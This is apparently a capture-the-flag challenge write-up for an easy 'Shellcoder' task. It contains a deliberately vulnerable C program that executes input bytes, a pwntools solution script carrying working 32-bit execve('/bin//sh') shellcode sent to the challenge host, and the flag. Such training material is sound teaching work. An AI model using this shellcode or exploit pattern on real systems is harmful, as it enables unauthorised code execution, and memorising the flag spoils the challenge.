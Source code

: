 # Shellcoder

Difficulty Level: Easy
 
This bad boy takes in any kind of instruction and runs it. Try giving it a shellcode.
 
Connect via `nc challenge.ctf-fun.xyz 14011`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- Search for 32 bit shellcode.
- You can send bytes in python like this `print('\x66\x6c\x61\x67') `


## Deployment

```bash
cd service
sudo ./shellcoder.sh &
```

## Solution
Looking at the source code we see that it takes input and tries to run it. 

```c
#include <stdio.h>

void vulnerable(){
	char buffer[64] = {0x00};

	printf("Give me a shell to run\n");
	fgets(buffer, sizeof(buffer), stdin);

	printf("Noice, executing it...\n");
	((void (*)())buffer)();
}


int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);

	vulnerable();
}
```
Search online for a 32bit shellcode and send it.

```python
"""
This exercise looks introduces shellcode. 
Just search online for a shellcode and let the program run it.

"""

from pwn import *

def main():

	# http://shell-storm.org/shellcode/files/shellcode-811.php	
	shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73"
	shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
	shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
	shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

	#io = process('./shellcoder')
	io = remote("challenge.ctf-fun.xyz", 14011)
	io.sendline(shellcode)
	io.interactive()

if __name__ == '__main__':
	main()
```


### Flag
19C4{Sh3ll_coding_iz_c00l}